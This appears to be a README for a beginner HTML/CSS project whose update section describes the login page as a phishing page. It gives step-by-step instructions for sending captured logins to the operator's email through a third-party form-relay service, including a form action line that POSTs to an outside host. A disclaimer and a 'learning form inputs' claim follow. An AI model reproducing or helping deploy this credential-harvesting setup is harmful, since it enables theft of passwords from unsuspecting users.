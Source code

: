 # html-and-CSS
Intial web development projects using html and CSS<br>
This is my first project in html using CSS.<br>
Feel free to make to changes in my code.
#UPDATE
* Now the input fields accept submissions.
* The login page is a phishing page,it sends the data to email.
* To get responses on your email,do the following:
* go to flipmail.com and enter your email to get a link.
* copy that link and edit the following line of code in index.html<br>
``` <form method="POST" action="http://flipmail.co/api/6PTILki4KnRoNyG4U2rg"> ```
* paste your flipmail link in action field and it will start sedning responses to your email address.
* I am not responsible for any illegal deeds done by you after getting password through this phishing page.
* I created this for the purpose of learning form inputs.
